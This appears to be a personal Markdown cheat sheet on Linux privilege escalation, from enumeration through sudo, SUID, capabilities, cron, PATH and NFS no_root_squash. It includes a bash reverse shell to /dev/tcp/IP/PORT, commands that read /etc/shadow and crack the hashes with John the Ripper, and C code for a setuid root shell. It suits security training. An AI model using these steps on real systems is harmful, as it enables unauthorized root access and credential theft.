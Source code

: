 # Linux
## Enumeration

**`hostname`** - name of the device, can be usefull <br>
**`uname -a`** - information about kernel system, search in exploit DB <br>
**`cat /proc/version`** - information about compilers (c++), kernel version <br>
**`ps`** - idk <br>
**`id`** - users privilege level<br>
**`sudo -l`** - what commands can user run with root privileges <br>
**`env`** - enviromental variables<br>
**`cat /etc/passwd`** - discoved users on the system <br>
**`cat /etc/shadow`** - hashes of passwords <br>
**`cat /etc/issue`** - what linux is running <br>
**`history`** - can show passwords and usernames or any info <br> <br>

### find commands
`find . -name flag1.txt 2>/dev/null` find the file named “flag1.txt” in the current directory <br>
`find /home -name flag1.txt` find the file names “flag1.txt” in the /home directory <br>
`find / -type d -name config` find the directory named config under “/” <br>
`find / -type f -perm 0777` find files with the 777 permissions (files readable, writable, and executablebyall users) <br>
`find / -perm a=x` find executable files <br>
`find /home -user frank` find all files for user “frank” under “/home” <br>
`find / -mtime 10` find files that were modified in the last 10 days <br>
`find / -atime 10` find files that were accessed in the last 10 day <br>
`find / -cmin -60` find files changed within the last hour (60 minutes) <br>
`find / -amin -60` find files accesses within the last hour (60 minutes) <br>
`find / -size 50M` find files with a 50 MB size <br>

## Logs

<pre> find /var/log -group adm -type f -exec ls -lh {} \; 
grep -i "password" /var/log/* 2>/dev/null
</pre>

<pre> cd /var/log ; grep -Ri "pass" </pre>

## Kernel exploit

Check the kernel information and try to find existing exploits, be sure you understande them. [ExploitDB](https://www.exploit-db.com/)

## Sudo

Run `sudo -l` command. Than look at [GTFOBins](https://gtfobins.github.io/) and search for bypass ways.

## SUID
Commands with permmisions of the file owner <br>

`find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set. <br>
Again you can compare compare executables on [GTFOBins+suid](https://gtfobins.github.io/#+suid).

It can be usefull to crack passwords using /etc/shadow and /etc/passwd files and then johnTheRipper  <br>
<pre>unshadow passwd.txt shadow.txt > passwords.txt

john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt passwords.txt
</pre>


## Capabilities

We can use the `getcap -r / 2>/dev/null` tool to list enabled capabilities. <br>
Search on [GTFOBins+capabilities](https://gtfobins.github.io/#+capabilities) <br>

## Cron Jobs

Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions. <br>

Any user can read the file keeping system-wide cron jobs under `/etc/crontab`

easy rev shell<br>
<pre>#!/bin/bash 

bash -i >& /dev/tcp/IP/PORT 0>&1</pre>

## PATH

1. What folders are located under $PATH
2. Does your current user have write privileges for any of these folders?
3. Can you modify $PATH?
4. Is there a script/application you can start that will be affected by this vulnerability?

search for writable files <br>
`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u` 

exporting path<br>
`export PATH=/newPath:$PATH`

easy shell<br>
<pre>echo "/bin/bash" > file

chmod 777 file </pre>

## NFS

NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.

`cat /etc/exports`

![image](img/shell.png)

The critical element for this privilege escalation vector is the “no_root_squash”. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

### On atacker's machine

Start bash with sudo privilages<br>
`sudo su`

We can start enumerating mountable shares <br>
`showmount -e <ip>`

Make dir in /tmp and mount it
<pre>mkdir /tmp/attack

mount -o rw IP:/path /tmp/attack </pre>

nfs.c script for bash
<pre>
int main(){
    setgid(0);
    setuid(0);
    system("/bin/bash");
    return 0;
}
</pre>

compile it and give it root bit flag
<pre>
gcc nfs.c -o nfs -w

chmod +s nfs
</pre>

Then you can run it on victim's machine